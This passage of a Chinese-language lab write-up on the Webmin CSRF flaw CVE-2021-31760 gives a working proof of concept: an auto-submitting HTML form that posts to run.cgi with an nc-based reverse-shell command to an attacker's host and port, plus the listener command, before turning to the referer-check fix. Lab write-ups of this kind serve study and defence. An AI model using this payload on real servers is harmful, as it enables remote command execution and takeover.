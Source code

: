 ```bash
    }
&webmin_log("run", undef, undef, \%in);
```

通过分析源码我们得知代码没有针对CSRF的保护措施，因此我们只需很简单的CSRF构造即可触发该漏洞，并且由于该漏洞触发点是run.cgi文件，我们可以直接通过CSRF构建RCE（远程命令执行），这是非常理想的漏洞利用场景。

#### 漏洞利用

接下来我们通过构造PoC，尝试利用这个漏洞。

首先我们来构造一个HTML文件，**这个HTML的核心目标是进行form表单的自动提交**，源码如下：

```plain
<html>
        <head>
            <meta name="referrer" content="never">
        </head>
  <body>
    <form action="http://your_mituan_app_address/proc/run.cgi" method="POST">
      <input type="hidden" name="cmd" value="mkfifo /tmp/378; nc your_ip your_port 0</tmp/378 | /bin/sh >/tmp/378 2>&1; rm /tmp/378" />
      <input type="hidden" name="mode" value="0" />
      <input type="hidden" name="user" value="root" />
      <input type="hidden" name="input" value="" />
      <input type="hidden" name="undefined" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>

</html>
```

**其中主要参数是cmd字段，其含义是：**

1. 创建一个命名管道378；
2. Webmin作为客户端使用nc连接黑客控制的服务端，接收命令，并通过匿名管道将命令重定向到bash；
3. bash执行服务端发过来的命令，将输出重定向到命名管道378，并通过命名管道378将输出重定向到nc发送给服务端。

这一条命令实际包含了两条管道，一条匿名管道，一条命名管道，并使其各司其职。它先后将html文件中的your\_mituan\_app\_address、your\_ip、your\_port替换为谜团启动的应用URL、你的服务器地址、你的服务器IP，即可开始CSRF攻击。

让我们看看这次攻击经历了哪些流程：首先我们以管理员身份登录Webmin界面，在自己的服务器上启动nc进行监听：nc -l -p 1337，然后使用浏览器直接打开我们创建的HTML页面，到这里我们的攻击就已完成，服务器上的nc已经接入Webmin服务器的bash，可以执行任意命令。

#### 漏洞分析

既然已经成功利用了该漏洞，接下来我们就要分析这一类漏洞该如何修复。**最简单的方式就是校验这次访问的来源。**事实上，Webmin已经做了这种防御。你肯定会有疑问，为什么做了防御仍然会出现CVE-2021-31760漏洞呢？其实这是由于一个配置项引起的，在构建Webmin平台的过程中，我们对config文件进行了修改：

```plain
/etc/webmin/config -> referers_none=0
```
